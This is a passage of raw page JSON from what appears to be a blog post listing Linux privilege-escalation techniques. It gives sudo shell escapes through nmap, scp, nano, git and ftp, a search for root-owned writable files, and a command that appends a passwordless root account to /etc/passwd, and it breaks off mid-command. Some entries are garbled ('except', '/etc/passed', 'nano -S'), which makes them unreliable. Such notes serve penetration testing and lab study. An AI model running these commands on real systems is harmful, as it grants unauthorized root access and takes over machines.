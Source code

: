 root","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_47":{"id":"600154e55c0b\_47","\_\_typename":"Paragraph","name":"71e4","text":"nmap","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_48":{"id":"600154e55c0b\_48","\_\_typename":"Paragraph","name":"5c00","text":"$ echo “os.execute(‘\\u002Fbin\\u002Fsh’)” \\u003E \\u002Ftmp\\u002Fshell.nse\\n$ sudo nmap --script=\\u002Ftmp\\u002Fshell.nse","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_49":{"id":"600154e55c0b\_49","\_\_typename":"Paragraph","name":"ad13","text":"Another way below:\\n($ sudo nmap --interactive\\nnmap\\u003E !sh)","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_50":{"id":"600154e55c0b\_50","\_\_typename":"Paragraph","name":"e98c","text":"scp","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_51":{"id":"600154e55c0b\_51","\_\_typename":"Paragraph","name":"0778","text":"$ sudo scp -S \\u002Fpath\\u002Fto\\u002Fyour\\u002Fscript x y","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_52":{"id":"600154e55c0b\_52","\_\_typename":"Paragraph","name":"1326","text":"except","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_53":{"id":"600154e55c0b\_53","\_\_typename":"Paragraph","name":"f9c0","text":"$ sudo except spawn sh then sh","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_54":{"id":"600154e55c0b\_54","\_\_typename":"Paragraph","name":"ace0","text":"nano","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_55":{"id":"600154e55c0b\_55","\_\_typename":"Paragraph","name":"2866","text":"$ sudo nano -S \\u002Fbin\\u002Fbash","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_56":{"id":"600154e55c0b\_56","\_\_typename":"Paragraph","name":"b856","text":"git","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_57":{"id":"600154e55c0b\_57","\_\_typename":"Paragraph","name":"f1bd","text":"$ sudo git help status\\n: !\\u002Fbin\\u002Fbash","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_58":{"id":"600154e55c0b\_58","\_\_typename":"Paragraph","name":"fc32","text":"gdb\\u002Fftp","type":"H4","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_59":{"id":"600154e55c0b\_59","\_\_typename":"Paragraph","name":"a127","text":"$ sudo ftp\\n: !\\u002Fbin\\u002Fsh","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_60":{"id":"600154e55c0b\_60","\_\_typename":"Paragraph","name":"0ff1","text":"\\\\x05 Find any writable file owned by root","type":"H3","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_61":{"id":"600154e55c0b\_61","\_\_typename":"Paragraph","name":"af69","text":"Please use the following command to find any writable files owned by root. You might be able to see the script file and add the needed command for your privilege escalation.","type":"P","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_62":{"id":"600154e55c0b\_62","\_\_typename":"Paragraph","name":"a994","text":"$ find \\u002F -perm -002 -user root -type f -not-path “\\u002Fproc\\u002F\*” 2\\u003E\\u002Fdev\\u002Fnull","type":"BQ","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_63":{"id":"600154e55c0b\_63","\_\_typename":"Paragraph","name":"0ba4","text":"\\\\x06 Check \\u002Fetc\\u002Fpasswd if writable","type":"H3","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_64":{"id":"600154e55c0b\_64","\_\_typename":"Paragraph","name":"9f77","text":"If you see \\u002Fetc\\u002Fpasswd is writable, the only thing you should do is to echo one line to \\u002Fetc\\u002Fpassed","type":"P","href":null,"layout":null,"metadata":null,"hasDropCap":null,"iframe":null,"mixtapeMetadata":null,"markups":\[\],"dropCapImage":null},"Paragraph:600154e55c0b\_65":{"id":"600154e55c0b\_65","\_\_typename":"Paragraph","name":"5da6","text":"$ echo “tseruser::0:0:pawned:\\u002Froot:\\u002Fbin\\u002Fbash” \\u003E\\u003E \\u002Fetc\\u002Fpasswd\\n$ su